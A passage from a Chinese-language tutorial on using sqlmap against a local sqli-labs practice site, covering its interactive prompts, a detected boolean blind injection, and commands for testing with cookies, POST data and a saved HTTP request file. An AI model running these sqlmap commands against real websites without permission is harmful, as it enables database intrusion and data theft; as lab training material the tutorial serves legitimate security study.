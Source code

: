 第二处交互的地方是说 对于剩下的测试，问我们是否想要使用扩展提供的级别(1)和风险(1)值的“MySQL”的所有测试吗？ 我们选择 y。

[![img](https://p2.ssl.qhimg.com/t01402f9ea9562a8e25.png)](https://p2.ssl.qhimg.com/t01402f9ea9562a8e25.png)

第三处交互是说已经探测到参数id存在漏洞了，是否还探测其他地方，我们选择 n 不探测其他参数了 。

最后sqlmap就列出了参数id存在的注入类型是boolean盲注，还有payload其他信息也显示出来了，最后还列出了目标系统的版本，php，apache等信息。

[![img](https://p1.ssl.qhimg.com/t018ffeaea388a20f96.png)](https://p1.ssl.qhimg.com/t018ffeaea388a20f96.png)

这次探测的所有数据都被保存在了 **/root/.sqlmap/output/192.168.10.1/** 目录下

[![img](https://p4.ssl.qhimg.com/t0109afcd10954974f6.png)](https://p4.ssl.qhimg.com/t0109afcd10954974f6.png)

**对于需要登录的网站**，我们需要指定其cookie 。我们可以用账号密码登录，然后用抓包工具抓取其cookie填入

```python
sqlmap -u  "http://192.168.10.1/sqli/Less-1/?id=1"   --cookie="抓取的cookie"  #探测该url是否存在漏洞
```

**对于是post提交数据的URL**，我们需要指定其data参数

```python
sqlmap -u "http://192.168.10.1/sqli/Less-11/?id=1" --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入
```

[![img](https://p2.ssl.qhimg.com/t01cd3dcbfe0685247b.png)](https://p2.ssl.qhimg.com/t01cd3dcbfe0685247b.png)

**我们也可以通过抓取 http 数据包保存为文件**，然后指定该文件即可。这样，我们就可以不用指定其他参数，这对于需要登录的网站或者post提交数据的网站很方便。

我们抓取了一个post提交数据的数据包保存为post.txt，如下，uname参数和passwd参数存在SQL注入漏洞

```perl
POST /sqli/Less-11/ HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Referer: http://192.168.10.1/sqli/Less-11/
Connection: close
Upgrade-Insecure-Requests: 1

uname=admin&passwd=admin&submit=Submit
```

然后我们可以指定这个数据包进行探测

```python
sqlmap -r post.txt        #探测post.txt文件中的http数据包是否存在sql注入漏洞
```

他也会和我们进行交互，询问我们，这里就不一一解释了

[![img](https://p4.ssl.qhimg.com/t0184de93de8fd4b128.png)](https://p4.ssl.qhimg.com/t0184de93de8fd4b128.png)
